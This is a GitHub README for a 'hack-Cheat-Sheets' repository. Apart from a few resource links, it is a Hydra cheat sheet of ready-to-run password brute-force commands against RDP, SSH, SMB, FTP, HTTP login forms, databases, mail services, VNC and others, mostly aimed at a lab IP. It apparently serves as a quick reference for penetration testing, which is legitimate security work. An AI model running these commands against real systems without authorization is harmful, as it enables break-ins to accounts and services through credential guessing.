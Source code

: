 # hack-Cheat-Sheets
This repo has a collection of snippets of codes and commands to help our lives! The main purpose is not be a crutch, this is a way to do not waste our precious time.


## Resources
i find these Repos very userfull 
- [Kali linux cheat sheet](https://github.com/NoorQureshi/kali-linux-cheatsheet)
- [Pentesting Tactics](https://hackviser.com/tactics/pentesting)
- [Windows Registry Attacks Cheat Sheet](https://infoseclabs.io/wp-content/uploads/simple-file-list/Windows-Registry-Attacks-Cheat-Sheet.pdf)

---
## Ninja Table
1. [Hydra cheat sheet](#1-Hydra-Cheat-Sheet)


---




## 1. Hydra Cheat Sheet


## RDP
```bash
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```

## SSH

```bash
hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```

## SMB

```bash
hydra -l Administrator -P passwords.txt -f smb://10.0.2.5 -V
```

## FTP

```bash
hydra -l root -P passwords.txt -f ftp://10.0.2.5 -V
```

## HTTP Basic Auth

```bash
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```

## HTTP POST

```bash
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form \
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

## IMAP

```bash
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```

## MySQL

```bash
hydra -L usernames.txt -P pass.txt -f mysql://10.0.2.5 -V
```

## POP3

```bash
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

## Redis

```bash
hydra -P password.txt redis://10.0.2.5 -V
```

## Rexec

```bash
hydra -l root -P password.txt rexec://10.0.2.5 -V
```

## Rlogin

```bash
hydra -l root -P password.txt rlogin://10.0.2.5 -V
```

## RSH

```bash
hydra -L username.txt rsh://10.0.2.5 -V
```

## RTSP

```bash
hydra -l root -P passwords.txt <IP> rtsp
```

## SMTP

```bash
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V  # Port 587 for SMTP with SSL
```

## Telnet

```bash
hydra -l root -P passwords.txt [-t 32] <IP> telnet
```

## VNC

```bash
hydra -L /root/Desktop/user.txt -P /root/Desktop/pass.txt -s <PORT> <IP> vnc
```

